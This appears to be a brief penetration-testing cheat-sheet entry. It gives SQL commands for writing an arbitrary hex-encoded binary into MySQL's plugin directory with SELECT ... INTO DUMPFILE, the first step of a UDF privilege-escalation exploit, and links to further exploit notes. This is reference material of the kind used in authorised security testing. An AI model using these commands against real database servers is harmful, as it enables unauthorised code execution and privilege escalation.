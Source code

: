 ## write any binary file with file permissions
`set @shell=0x <hex here> ;`
paste in hex as a variable with no quotes.
prepare payload as plain hex with no newlines with ~/kb/bash-scripting/string-to-hex.sh
```SQL
select @@plugin_dir;
select binary @shell into dumpfile '/path/to/file/file.so';
```
additional UDF exploit info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library

